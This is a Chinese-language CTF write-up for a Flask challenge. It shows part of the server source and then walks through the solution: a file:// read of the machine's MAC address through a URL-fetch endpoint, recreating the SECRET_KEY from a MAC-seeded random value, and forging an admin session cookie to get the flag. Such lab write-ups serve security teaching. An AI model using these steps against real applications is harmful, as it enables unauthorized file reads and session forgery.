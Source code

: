 ```python
            return '禁止访问'
        res = urllib.request.urlopen(url)
        return res.read().decode('utf-8', errors='ignore')
    except Exception as ex:
        print(str(ex))
        return '无读取内容可以展示'


@app.route('/flag')
def flag():
    if session.get('username') == 'admin':
        return open('/flag.txt', encoding='utf-8').read()
    else:
        return '访问受限'


if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0")
```

阅读源码可以知道，不允许url里出现flag，出现会鉴权，所以需要伪造`admin` session



::: tip
Python `random.random()` 是确定性的，种子相同，输出完全相同，只要读取到机器MAC地址，就可以精准计算出密钥
:::

读取机器码

```bash
read?url=file:///sys/class/net/eth0/address
```

拿到机器码`02:42:ac:0c:fc:3d`

计算密钥`SECRET_KEY`

```python
import random

mac = int("02:42:ac:0c:fc:3d".replace(":",""),16) # 已知的 MAC 地址
random.seed(mac)
key = str(random.random()*100)
print(key) # 79.43065193591464
```

使用[【flask-session-cookie-manager】](https://github.com/noraj/flask-session-cookie-manager)来伪造seesion

```bash
python3 .\flask_session_cookie_manager3.py decode -s "79.43065193591464"  -c "eyJ1c2VybmFtZSI6Imd1ZXN0In0.aLg2YA.Bq9NjyH26PAyzl3YjpBKIIgHOVQ"

python3 .\flask_session_cookie_manager3.py encode -s "79.43065193591464" -t "{'username':'admin'}"
```

更换session访问`/flag`拿到flag
